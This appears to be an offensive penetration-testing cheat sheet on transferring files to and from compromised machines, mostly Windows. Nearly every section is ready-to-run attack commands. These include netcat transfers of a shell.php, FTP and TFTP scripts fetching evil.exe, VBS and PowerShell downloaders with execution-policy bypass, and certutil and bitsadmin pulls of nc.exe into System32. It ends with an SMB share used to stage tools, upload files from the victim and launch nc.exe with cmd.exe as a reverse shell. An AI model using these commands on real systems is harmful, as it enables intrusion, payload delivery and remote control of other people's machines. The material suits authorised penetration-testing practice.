 File transfer

# Do not forget to allow connection on firewalls !!

## Use nc

- on attacker machine : ```nc -nlvp 4444 < shell.php ```
- on victim machine : ```nc -nv <attacking machine> 4444 > shell.php```

---

## WINDOWS 

### TFTP : ( port 69 )

On some windows machine, there's a tftp client installed by default :
copy your file in /srv/atftp/ (arch linux) 

- ```systemctl start atftpd```

- on the targeted machine : ```
tftp -i 10.11.0.156 GET nc.exe C:/Users/Public/Downloads/nc.exe)```


### FTP : ( port 21 ) 

(file are accessible as anonymous in /srv/ftp/ in arch linux, start the service)

```echo open 10.11.0.156 21 > ftp.txt
echo anonymous>> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
```

- Then execute : ```ftp -s:ftp.txt```

If not anonymous, modify anonymous part by :
```
echo USER <user> >> ftp.txt
echo <password> >> ftp.txt
```

### VBS

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```


- ```cscript wget.vbs http://10.11.0.156/evil.exe exploit.exe```


### Powershell :

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```


- ```powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1```


### debug.exe

Against 32 bit windows operating systems.

There is a 64k byte size limit to the files that can be created by debug.exe

**transfer of nc :**

- Start by using upx to compress it : ```upx -9 nc.exe```

- ```wine exe2bat.exe nc.exe nc.txt```
- copy paste the nc.txt in cmd


### WITHOUT POWERSHELL :


- ```certutil.exe -urlcache -split -f "http://10.11.0.156:8000/nc.exe" c:\Windows\System32\nc.exe```

- ```bitsadmin /transfer job /download /priority high http://10.11.0.156:8000/nc.exe c:\Windows\System32\\nc.exe```

### With powershell :

Both curl, iwr or wget could be alias for Invoke-WebRequest since powershell 5.0, so :

- ```powershell wget “<url>” -outfile “ <youname>”```

- ```curl -O http://ip:port/file```

---


### SMB 

- on attacking machine :
```
smbserver SHARE $(pwd) -smb2support -user user -password password
```
- on victim machine

```
$pass = convertto-securestring 'password' -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('user', $pass)

New-PSDrive -Name user -PSProvider Filesystem -Credential $cred -Root \\ip\share
```

- ```net use \\IP\SHARE```
- or ```net use \\IP\SHARE /user user password```


- Viewing available files on the SMB share : ```
dir \\10.10.14.17\SHARE```


- Downloading the nc.exe file to the victim : ```copy \\10.10.14.17\SHARE\nc.exe .```

- With SMB, files can also be uploaded from the victim to the attacker : ```copy nc2.exe \\10.10.14.17\SHARE\nc2.exe```


- Executing nc.exe over SMB on the victim. Note that the executable is not copied to the victim but executed over SMB.
```\\10.10.14.17\SHARE\nc.exe -nv 10.10.14.17 4444 -e cmd.exe``` 

- Rmove the share : ```net use * /delete /y```

### in an old cmd :

- net use /d \\\\ip\\share

- if you have the nc.exe inside, you can use it directly.